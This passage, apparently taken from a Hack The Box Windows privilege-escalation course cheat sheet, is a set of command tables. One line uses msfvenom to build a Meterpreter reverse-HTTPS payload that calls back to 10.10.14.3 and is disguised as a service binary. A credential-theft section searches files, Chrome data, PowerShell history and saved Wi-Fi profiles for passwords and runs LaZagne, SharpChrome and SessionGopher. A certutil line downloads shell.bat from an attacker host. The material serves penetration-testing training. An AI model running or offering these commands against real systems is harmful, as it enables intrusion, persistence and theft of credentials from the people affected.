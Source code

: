 | `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`                                                                                                  | Check startup programs                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`                                                                       | Generating a malicious binary                              |
| `get-process -Id 3324`                                                                                                                                                                | Enumerating a process ID with PowerShell                   |
| `get-service \| ? {$_.DisplayName -like 'Druva*'}`                                                                                                                                    | Enumerate a running service by name with PowerShell        |

### Credential Theft

| **Command**                                                                                                               | **Description**                                    |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml`                                                              | Search for files with the phrase "password"        |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |
| `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |
| `cmdkey /list`                                                                                                            | List saved credentials                             |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |
| `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |

### Other Commands

| **Command**                                                                                                 | **Description**                                    |
| ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`                               | Transfer file with certutil                        |
| `certutil -encode file1 encodedfile`                                                                        | Encode file with certutil                          |
| `certutil -decode encodedfile file2`                                                                        | Decode file with certutil                          |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`                                 | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`                                              | Query for always install elevated registry key (2) |